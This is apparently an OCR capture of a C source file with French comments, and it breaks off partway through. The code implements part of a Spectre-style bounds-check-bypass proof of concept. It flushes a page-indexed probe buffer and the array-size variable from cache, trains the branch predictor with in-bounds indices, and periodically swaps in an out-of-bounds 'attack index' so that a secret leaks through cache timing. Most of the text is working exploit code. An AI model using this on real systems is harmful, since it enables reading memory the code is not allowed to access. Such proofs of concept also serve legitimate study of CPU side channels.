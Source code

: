 ```c

void access_value(uint32_t x) {
    /* Wrapper pour éviter les optimisations */
    (void)x;
}

void delay() {
    /* Ne fait rien à part faire passer le temps */
    uint32_t x = 0x1337;
    for(volatile int i = 0; i < 1000; i++) {
        x *= i;
        x ^= 444;
        x *= 555;
    }
}

#define TRAIN 30
#define FREQ 5
uint32_t get_index_access_time(int idx, int value) {
    uint32_t cycle_difference = 0;
    uint32_t access_time = 0;
    uint32_t in_ram = 0;
    uint32_t in_cache = 0;
    uint32_t diff = 0;

    /* Récupère l'index de la page à laquelle on accède */
    value *= PAGE_SIZE;

    /* Boucle pour faire une moyenne sur COUNT accès */
    for(int i = 0; i < COUNT; i++) {

        /* Vidage du cache */
        for(int j = 0; j < 256; j++) {
            _mm_clflush((void*)(paged_buffer + j * PAGE_SIZE));
        }
        
        /* Index trx qui est dans les limites du tableau */
        uint32_t trx = idx % buffer_size;

        /* Entrainement de la branche */
        for(int i = 0; i < TRAIN; i++) {
            /* On enlève la variable de taille du tableau du cache pour que la comparaison soit lente */
            _mm_clflush((void*)&buffer_size);
            delay();

            /*
             * Trick emprunté de plusieurs PoC en ligne.
             * Il permet de faire une condition, sans pour autant ajouter des branches
             * L'ajout de branche risque d'annuler l'optimisation du processeur qui verrait
             * plusieurs chemin, donc n'entraînerait pas correctement son choix de branche.
             *
             * Le pseudo-code équivalent est le suivant
             *
             * if (i % FREQ == 0) {
             *     addr = idx; // Index d'attaque
             * } else {
             *     addr = trx; // Index dans le tableau
             * }
             * 
             * En faisant ceci, encore dans une optique de moyenne, toutes les FREQ itération
             * on va essayer de jouer sur la prédiction avec l'index du secret en paramètre
             * En faisant cela plusieurs fois, il devrait y avoir au moins une mise en cache
```